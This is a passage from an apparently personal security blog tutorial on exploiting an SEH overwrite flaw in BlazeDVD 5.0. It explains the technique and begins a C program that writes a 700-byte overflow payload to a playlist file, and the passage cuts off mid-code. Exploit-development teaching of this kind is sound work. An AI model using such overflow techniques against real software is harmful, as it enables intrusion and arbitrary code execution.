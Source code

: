 ```yaml
---
title: "Exploiting SEH Overwrite Vulnerabilities in Windows Applications"
date: 2025-06-14    
categories: [Exploit]
tags: [SEH]
image: "https://i.pinimg.com/736x/81/16/4f/81164fafd0362febf79446c9d7b5c22c.jpg"
---
```


## Exploiting SEH Overwrite Vulnerabilities in Windows Applications

In this post, we're gonna dig into a vulnerability called SEH Overwrite in a vulnerable software version [BlazeDVD 5.0](https://www.exploit-db.com/exploits/6217). But, as usual, we'll be building our exploit from scratch using the C language.

## What's SEH Overwrite?
To get a handle on this vulnerability, it'd be good to first check out my post on [Buffer Overflow](https://lipeozyy.github.io/posts/Exploit-Development-for-Buffer-Overflow/), since SEH is usually exploited using a BOF.

To explain it, I'll put together an easy-to-understand diagram:
### Diagram to Understand SEH Overwrite 
![alt text](assets/post_4/Captura de tela de 2025-06-07 10-48-15.png)
![alt text](assets/post_4/Captura de tela de 2025-06-07 16-59-35.png)

To bypass this behavior and gain greater control over the execution flow, an effective approach is to exploit the Structured Exception Handler (SEH) mechanism. By continuing to overwrite the stack until reaching the SEH-related registers, it becomes possible to redirect the execution flow through an SEH overwrite, allowing the execution of arbitrary code even in the presence of mechanisms that interfere with direct control over the return address.

## initial code:

To speed up the exploitation process, I’ve already written a C code that performs a buffer overflow on the application we’ll be targeting, so we can move directly to the SEH exploitation.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    FILE *arq;
    const char *file = "exploit.plf";
    int payload_size = 700;
    char *payload = (char *)malloc(payload_size + 1);

    if (payload == NULL) {
        return 1;
    }

    memset(payload, 'A', payload_size);
    payload[payload_size] = '\0'; 

    arq = fopen(file, "w");
    if (arq == NULL) {
        free(payload);
        return 1;
    }

```